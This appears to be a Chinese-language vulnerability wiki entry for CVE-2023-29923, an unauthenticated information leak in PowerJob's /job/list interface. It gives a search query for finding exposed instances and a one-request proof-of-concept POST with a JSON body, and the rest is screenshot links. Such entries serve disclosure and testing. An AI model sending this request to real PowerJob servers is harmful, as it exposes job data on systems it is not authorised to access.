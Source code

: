 # PowerJob list 信息泄漏漏洞 CVE-2023-29923

## 漏洞描述

PowerJob list接口存在信息泄漏漏洞，攻击者无需通过授权就可以访问授权的接口，获取敏感数据

## 漏洞影响

<a-checkbox checked>PowerJob</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="PowerJob"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](/assets/PeiQi-Wiki/img/1682086796259-10d346df-2520-4671-abc7-9590e9676a13.png)

验证POC

```plain
POST /job/list
Content-Type: application/json

{"appId":1,"index":0,"pageSize":10}
```

![img](/assets/PeiQi-Wiki/img/1682086913135-2a656856-28ff-448b-b549-cf68611b8175.png)